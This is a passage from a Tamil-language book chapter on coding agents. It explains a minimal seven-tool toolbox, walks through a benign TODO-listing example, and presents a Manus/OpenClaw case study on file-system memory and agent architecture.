










# Coding Agent மற்றும் Code Generation

முந்தைய அத்தியாயங்கள் context engineering (அத்தியாயங்கள் 2 மற்றும் 3) மற்றும் tool design (அத்தியாயம் 4) பற்றி விரிவாக ஆராய்ந்தன. இந்த அத்தியாயம் இந்த கூறுகளை ஒருங்கிணைத்து ஒரு முக்கிய கேள்விக்கு பதிலளிக்கிறது: **தன்னிச்சையான பணிகளைக் கையாளும் திறன் கொண்ட general-purpose Agent-ன் architecture எப்படி இருக்கும்?**

பதில்: **open-ended பணிகளை இலக்காகக் கொண்ட general-purpose Agent**-ன் மையத்தில் ஒரு **Coding Agent** (தானாகவே code எழுதவும், மாற்றவும், இயக்கவும் கூடிய Agent) மற்றும் ஒரு **file system** — Agent code, data, memory, மற்றும் intermediate results-ஐ சேமிக்கும் workspace — உள்ளது. இது ஒரு programmer தனது கணினியில் folders-ஐப் பயன்படுத்தி projects-ஐ நிர்வகிப்பதைப் போன்றது. இந்த முடிவு தொழில்துறை நடைமுறையிலிருந்து வருகிறது — Manus முதல் OpenClaw வரை, வெற்றிகரமான open-ended general-purpose Agents அனைத்தும் ஒரே paradigm-ஐப் பின்பற்றுகின்றன: code execution, file read/write, search போன்ற சிறிய set of general tools-ஐக் கொண்ட Coding Agent runtime-ஐ உருவாக்கி, பின்னர் browser automation மற்றும் web search போன்ற capability modules-ஐ layer செய்யவும். இந்த முடிவின் applicability boundary பற்றி "From Manus to OpenClaw" பகுதியின் முடிவில் விவாதிக்கப்படும்.

Code generation ஏன் இந்த பொறுப்பை ஏற்க முடியும்? ஏனெனில் இது toolbox-ல் உள்ள ஒரு tool மட்டுமல்ல, ஒரு **meta-capability** — runtime-ல் புதிய tools மற்றும் capabilities-ஐ dynamic-ஆக உருவாக்கும் திறன். இந்த அத்தியாயத்தின் பிற்பகுதி ("Code: The Meta-Capability of a General-Purpose Agent" பகுதி) இந்த கருத்து மற்றும் அதன் ஆறு திசைகளிலான பயன்பாடுகளை முழுமையாக விரிவுபடுத்தும்.

Agent-க்கு code-ன் மதிப்பு இரண்டு நிலைகளில் வெளிப்படுகிறது. **Reasoning**-ன் அடிப்படையில், formalized code சிந்தனையை மிகவும் rigorous-ஆக மாற்றுகிறது — "age greater than 18 and identity verified" என்பது இயற்கை மொழியில் பல விளக்கங்களைக் கொண்டிருக்கலாம், ஆனால் `age > 18 and is_verified` என எழுதும்போது அது unambiguous-ஆக இருக்கும். **Expression**-ன் அடிப்படையில், வெற்றிகரமாக இயங்கும் ஒரு piece of code தானாகவே logical consistency-க்கான சான்றாகும், மேலும் execution result சரியானதற்கான objective standard-ஐ வழங்குகிறது — இது natural language-ஆல் அடைய முடியாத ஒன்று.

இந்த அத்தியாயம் Coding Agent-ன் basic capabilities மற்றும் general-purpose Agent architecture (OpenClaw) உடன் தொடங்குகிறது, பின்னர் பல்வேறு சூழ்நிலைகளில் code generation-ன் பயன்பாட்டை நிரூபிக்கிறது — mathematical reasoning மற்றும் content creation முதல் system-level meta-capabilities வரை.

## Coding Agent

### Coding ஒரு Foundational Agent Capability ஆக

**Code generation என்பது சில specialized Agents-க்கு மட்டுமே உரிய துறை அல்ல, மாறாக ஒவ்வொரு general-purpose Agent-ம் கொண்டிருக்க வேண்டிய foundational capability ஆகும்.** தற்போதைய SOTA models-உடன், basic coding ability-ஐ வழங்குவதற்கு சிக்கலான architecture தேவையில்லை.

ஒரு பொதுவான பணியைக் கவனியுங்கள்: "Repository-ல் உள்ள அனைத்து மீதமுள்ள TODO comments-ஐ ஒழுங்குபடுத்தி, அவற்றை priority வாரியாக வகைப்படுத்தி, issues-ஐ உருவாக்கவும்." இதை நிறைவேற்ற — directory structure-ஐ உலாவுதல் (ls/glob), code-ஐ படித்தல் (read), கோப்புகளை மாற்றுதல் (edit/write), commands-ஐ இயக்குதல் (bash), மற்றும் patterns-ஐ தேடுதல் (grep/search) ஆகியவை தேவை. இந்த ஐந்து வகை செயல்பாடுகளும் ஒரு Coding Agent-இன் கிட்டத்தட்ட அனைத்து முக்கிய செயல்களையும் உள்ளடக்குகின்றன, மேலும் அவையே கீழே விரிவாக விளக்கப்பட்டுள்ள ஏழு tools-இன் தோற்றுவாயாகும். கண்டிப்பாகச் சொல்வதானால், இந்த ஐந்து வகைகள் இயற்கையாகவே ஆறு tools-ஐ ஒத்துள்ளன; ஏழாவதான Code Interpreter, "code-ஐ execute செய்தல்/compute செய்தல்" போன்ற செயல்பாடுகளுக்கு ஒத்திருக்கிறது, இது சில implementations-இல் Bash-உடன் இணைக்கப்படுகிறது — ஏழு tools என்பது ஒரு தரப்படுத்தப்பட்ட குறிப்புத் தொகுப்பாகும், மேலும் அவை ஐந்து செயல்பாட்டு வகைகளுடன் கண்டிப்பான ஒன்றுக்கு-ஒன்று mapping-ஐ கொண்டிருக்க வேண்டியதில்லை.

ஒரு அடிப்படை Coding Agent-க்கு பின்வரும் ஏழு முக்கிய tools மட்டுமே பொருத்தப்பட வேண்டும்:

1. **Code Interpreter**: ஒரு தனிமைப்படுத்தப்பட்ட sandbox சூழலை (முதன்மை அமைப்பிலிருந்து தனிமைப்படுத்தப்பட்ட பாதுகாப்பான runtime இடம், இங்கு code execution பிழைகள் host-ஐ பாதிக்காது) வழங்கி, Python code-ஐ பாதுகாப்பாக execute செய்கிறது
2. **Bash Shell**: Terminal-ல் commands-ஐ execute செய்கிறது, உதாரணமாக test cases-ஐ இயக்குதல் அல்லது சிறப்பு வடிவமைப்பு கொண்ட கோப்புகளை செயலாக்குதல்
3. **Read File Tool**: Code, configuration, documentation, logs போன்றவற்றைப் படிக்கிறது
4. **Write File Tool**: புதிய கோப்புகளை உருவாக்குகிறது அல்லது ஏற்கனவே உள்ள கோப்புகளை முழுமையாக மேலெழுதுகிறது
5. **Edit File Tool**: ஏற்கனவே உள்ள கோப்புகளில் பகுதி மாற்றங்களைச் செய்கிறது, இது code பராமரிப்பு மற்றும் மறு செய்கைக்கான முக்கிய செயல்பாடாகும்
6. **Search File Name Tool (Glob)**: Pattern matching மூலம் file system-ல் இலக்கு கோப்புகளை விரைவாகக் கண்டறிகிறது, எ.கா., `**/*.py` ஐப் பயன்படுத்தி ஒரு project-ல் உள்ள அனைத்து Python கோப்புகளையும் கண்டறிதல்
7. **Search File Content Tool (Grep)**: கோப்பு உள்ளடக்கத்தில் குறிப்பிட்ட text patterns-ஐ தேடுகிறது, எ.கா., ஒரு குறிப்பிட்ட function-ஐ அழைக்கும் அனைத்து code lines-ஐயும் கண்டறிதல்

இந்த ஏழு tools ஒரு முழுமையான ஆனால் குறைந்தபட்ச toolbox-ஐ உருவாக்குகின்றன, இதை எந்தவொரு Agent அமைப்பும் குறைந்த செலவில் ஒருங்கிணைக்க முடியும். செயல்படுத்தலில், இவை அனைத்தையும் Chapter 4-ல் அறிமுகப்படுத்தப்பட்ட MCP protocol மூலம் தரப்படுத்தப்பட்ட tool services ஆக வெளிப்படுத்த முடியும். இந்த toolset என்பது Coding Agents-க்கு மட்டுமே உரிய ஒரு அடிப்படை உள்ளமைவு என்பதைக் கவனிக்கவும், இது Chapter 4-ல் invocation direction மற்றும் function nature அடிப்படையில் வகைப்படுத்தப்பட்ட ஐந்து பொதுவான tool வகைகளிலிருந்து (perception/execution/collaboration/event-triggering/user communication) வேறுபட்டது — ஏழு முக்கிய tools முக்கியமாக perception மற்றும் execution வகைகளை உள்ளடக்குகின்றன. வாசகர்கள் கேட்கலாம்: collaboration, event triggering, மற்றும் user communication தேவைகள் பற்றி என்ன? — ஒரு Coding Agent-ல், இவை பொதுவாக Agent framework-ஆல் (tool layer அல்ல) கையாளப்படுகின்றன, உதாரணமாக, sub-agent delegation ஆனது framework-இன் orchestration logic மூலம் நிர்வகிக்கப்படுகிறது, தனிப்பட்ட collaboration tools மூலம் அல்ல.

இந்த ஏழு tools ஒரு எளிய பணியுடன் எவ்வாறு ஒன்றிணைந்து செயல்படுகின்றன என்பதைப் பார்ப்போம். பயனர் சொல்கிறார் என்று வைத்துக்கொள்வோம், "Project-ல் உள்ள அனைத்து TODO comments-இன் பட்டியலைத் தொகுக்க எனக்கு உதவுங்கள்":

```
Agent (thinking): Need to find all code lines containing TODO.
Agent → Grep("TODO", glob="**/*.py")          # Search file content
Tool returns:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent (thinking): Found 3 TODOs, compile them into a list and write to a file.
Agent → Write("TODO_LIST.md", content="...")   # Write file
Tool returns: File created

Agent: Done. Found 3 TODO items, the list is saved in TODO_LIST.md.
```

முழு செயல்முறையும் இரண்டு tools மட்டுமே பயன்படுத்தியது: Grep (உள்ளடக்கத்தைத் தேடு) மற்றும் Write (கோப்பை எழுது). பணி மிகவும் சிக்கலானதாக இருந்தால் — "ஒவ்வொரு module-க்கும் உள்ள TODOs-ஐ எண்ணி bar chart வரையவும்" — Agent ஆனது Code Interpreter-ஐப் பயன்படுத்தி Python code மூலம் புள்ளிவிவரங்கள் மற்றும் வரைபடங்களை இயக்கும். ஏழு tools எளிமையானவை என்றாலும், அவை இணைந்து பலவிதமான பணிகளைச் செய்ய முடியும்.

ஏன் ஒவ்வொரு general-purpose Agent-க்கும் coding திறன் இருக்க வேண்டும்? ஏனென்றால் code generation என்பது வெறும் நிரல்களை எழுதுவது மட்டுமல்ல — இது ஒரு general-purpose சிக்கல் தீர்க்கும் முறையாகும். கணித பகுத்தறிவுக்கு, நீங்கள் code எழுதி solver-க்கு கொடுத்து துல்லியமான பதில்களைப் பெறலாம்; வணிக விதிகளை உறுதிப்படுத்த, code ஆனது natural language விளக்கங்களை விட மிகவும் துல்லியமானது; ஒரு tool இல்லையென்றால், அதை நீங்கள் உடனடியாக எழுதலாம்; data format மாறினால், நீங்கள் dynamically parsing logic-ஐ உருவாக்கலாம். இந்த அத்தியாயத்தின் அடுத்தடுத்த பகுதிகள் இந்த சூழ்நிலைகளை ஒவ்வொன்றாக விரிவாக விளக்கும். அடிப்படை coding திறன் கொண்ட ஒரு Agent, அதன் toolbox-இல் மேலே குறிப்பிட்ட ஏழு எளிய tools மட்டுமே இருந்தாலும், புதிய தேவைகளை எதிர்கொள்ளும்போது தனது திறன் எல்லைகளை dynamically விரிவுபடுத்த முடியும்.

### வழக்கு ஆய்வு: Manus முதல் OpenClaw வரை — General-Purpose Agents-இன் Coding Core

Manus போன்ற general-purpose Agent தயாரிப்புகள் மூன்று முக்கிய திறன்களை — Deep Research, Computer Use மற்றும் Coding — ஒரே அமைப்பில் ஒருங்கிணைத்து, பல்வேறு நடைமுறைகளால் மீண்டும் மீண்டும் உறுதிப்படுத்தப்பட்ட ஒரு நுண்ணறிவை வெளிப்படுத்துகின்றன: **A Coding Agent plus a file system என்பது open-ended general-purpose Agents-க்கான மிக அடிப்படையான தொழில்நுட்ப அடித்தளமாகும்.** OpenClaw என்ற open-source திட்டமும் இதே அணுகுமுறையைப் பின்பற்றி, இந்த கட்டமைப்பு முன்னுதாரணத்தை open-source நடைமுறை மூலம் நிரூபிக்கிறது.

ஏன் Coding Agent தான் மற்ற இரண்டையும் விட மையமாக உள்ளது? ஏனென்றால் கிட்டத்தட்ட அனைத்து திறமையான உள்ளடக்க உருவாக்கமும் இறுதியில் code-ஆகவே மாறுகிறது. ஒரு PPT என்பது OOXML வடிவத்தில் உள்ள code ஆகும்; Word ஆவணங்கள் மற்றும் PDF அறிக்கைகள் code மூலம் உருவாக்கப்படலாம்; data பகுப்பாய்வு மற்றும் காட்சிப்படுத்தல் Python scripts மூலம் செய்யப்படுகிறது; GUI கையாளுதலில் வெற்றிகரமான browser செயல்பாட்டு வரிசைகள் கூட மீண்டும் பயன்படுத்தக்கூடிய RPA code ஆக உறுதிப்படுத்தப்படலாம் (Computer Use பற்றி அத்தியாயம் 9-இல் விரிவாக உள்ளது, மேலும் செயல்பாட்டு வரிசைகளை உறுதிப்படுத்தும் வழிமுறை அத்தியாயம் 8-இல் விளக்கப்பட்டுள்ளது). Deep Research-இன் தேடல் மற்றும் தகவல் தொகுப்பு code-driven web requests மற்றும் parsing மூலம் அடையப்படலாம். Computer Use மிகவும் பல்துறை திறன் கொண்டதாக இருந்தாலும், அதன் செலவு, தாமதம் மற்றும் நிலைத்தன்மை ஆகியவை code அல்லது APIs மூலம் நேரடியாக அதே செயல்பாடுகளை முடிப்பதை விட மிகவும் குறைவானவை. Code generation என்பது மிகவும் திறமையான, குறைந்த செலவு மற்றும் மிகவும் மீண்டும் பயன்படுத்தக்கூடிய திறன் அடித்தளமாகும்.



இந்த கட்டமைப்பை ஒரு குறிப்பிட்ட செயல்பாட்டு ஓட்டம் மூலம் புரிந்துகொள்வோம். பயனர் "கடந்த காலாண்டின் விற்பனை தரவை பகுப்பாய்வு செய்து ஒரு சுருக்க அறிக்கையை உருவாக்கவும்" என்று கேட்பதாக வைத்துக்கொள்வோம்:

1. **Read Memory**: Agent `MEMORY.md`-ஐப் படித்து, பயனர் PDF வடிவ அறிக்கைகளை விரும்புகிறார் மற்றும் data source Google Sheets என்பதைக் கண்டறிகிறது
2. **Call Tools**: web search module மூலம் Google Sheets API-க்கான பயன்பாட்டு வழிமுறைகளைப் பெறுகிறது, code execution மூலம் தரவைப் பதிவிறக்குகிறது
3. **Write Code**: Python-இல் (pandas aggregation, matplotlib visualization) ஒரு data analysis script-ஐ உருவாக்குகிறது
4. **Generate Artifacts**: analysis results-ஐ `report.pdf`-க்கும், charts-ஐ `charts/` directory-க்கும் எழுதுகிறது
5. **Update Memory**: `MEMORY.md`-இல் "User's sales data is in Google Sheets, ID: xxx" என்று பதிவு செய்கிறது, அடுத்த முறை கேட்க வேண்டியதில்லை

இந்த செயல்முறை முழுவதும், file system தான் information flow-ன் மையமாக உள்ளது — memory files-இலிருந்து படிக்கப்படுகிறது, artifacts files-க்கு எழுதப்படுகிறது, மற்றும் experience-ம் files-ஆக சேமிக்கப்படுகிறது.

**The File System as the Agent's Central Hub.** OpenClaw-ன் வடிவமைப்பில், file system என்பது data storage-ஐ விட மிக அதிகமானது — இது Agent-ன் memory, knowledge, மற்றும் capabilities-க்கான மைய மையமாகும். Agent-ன் long-term memory ஆனது `MEMORY.md` (high-level facts மற்றும் user preferences) மற்றும் date-வாரியாக archived Markdown logs-இல் சேமிக்கப்படுகிறது. vector database-க்கு பதிலாக Markdown-ஐ தேர்ந்தெடுப்பது எதிர்மறையாகத் தோன்றலாம், ஆனால் இது மிகவும் பயனுள்ளதாக உள்ளது: users நேரடியாக files-ஐத் திறந்து Agent-ன் memory-ஐப் படித்து மாற்றலாம் (Agent தவறாக நினைவில் வைத்திருந்தால், அந்த line-ஐ நீக்கினால் போதும்), Markdown இயற்கையாகவே chronological order-ஐப் பாதுகாத்து semantic retrieval-இல் temporal confusion-ஐத் தவிர்க்கிறது, மேலும் Git மூலம் version control மற்றும் rollback-ஐ ஆதரிக்கிறது.

மிக முக்கியமாக, Agent-க்கு files எழுதும் திறன் உள்ளது, அதாவது அது எழுதுவதன் மூலம் **self-evolve** செய்ய முடியும். ஒரு Agent முதல் முறையாக ஒரு பணியைச் செய்து, முன்பு அறியப்படாத முக்கியமான தகவலைக் கண்டறியும் போது (எ.கா., ஒரு குறிப்பிட்ட வங்கியை அழைக்கும் போது, அந்த வங்கிக்கு account-ன் branch address identity verification-க்குத் தேவை என்பதை அறியும் போது), இந்த experience-ஐ knowledge base-இல் எழுதுகிறது, அடுத்த முறை அதே பணியைச் செய்யும் போது தானாகவே ஏற்றப்படும். இந்த "gets smarter with use" mechanism ஆனது Chapter 8-இல் ஆழமாக விவாதிக்கப்படும் externalized learning paradigm-ன் ஒரு concrete practice ஆகும்.

**பயன்பாட்டு எல்லை: எந்த Agents-களுக்கு Coding அவற்றின் மைய கட்டமைப்பாக உள்ளது.** "Coding Agent என்பது ஒரு general-purpose Agent-ன் மையமாகும்" என்ற முடிவு முக்கியமாக **open-ended பணிகளை இலக்காகக் கொண்ட general-purpose Agents-களுக்குப்** பொருந்தும் — ஆழமான ஆராய்ச்சி, உள்ளடக்க உருவாக்கம், மற்றும் தரவு செயலாக்கம் போன்ற சூழ்நிலைகள், அங்கு பணி எல்லைகள் நிச்சயமற்றவை மற்றும் artifact வடிவங்கள் பன்முகத்தன்மை கொண்டவை. இந்த சூழ்நிலைகளில், தேவையான அனைத்து tools-ஐயும் முன்கூட்டியே பட்டியலிட முடியாது; code generation, ஒரு meta-capability ஆக, capability எல்லைகளை மாறும் வகையில் விரிவுபடுத்துவதற்கான மிகவும் சிக்கனமான பாதையை வழங்குகிறது, இது கட்டமைப்பின் மையமாக அமைகிறது. மற்றொரு வகை Agent — செங்குத்து கள வாடிக்கையாளர் சேவை Agents, குரல் உதவியாளர்கள் — ஒப்பீட்டளவில் மூடப்பட்ட பணி இடைவெளிகளைக் கொண்டுள்ளன, அவற்றின் மைய கட்டமைப்புகள் நிலையான வணிக செயல்முறைகள், கள tools, மற்றும் உரையாடல் உத்திகளைச் சுற்றி கட்டமைக்கப்பட்டுள்ளன; code இங்கு ஒரு கட்டிடக்கலை மையத்தை விட கருவிப்பெட்டியில் உள்ள ஒரு tool ஆகும் (இந்த அத்தியாயத்தில் பின்னர் உள்ள τ-bench எடுத்துக்காட்டில், code ஒரு 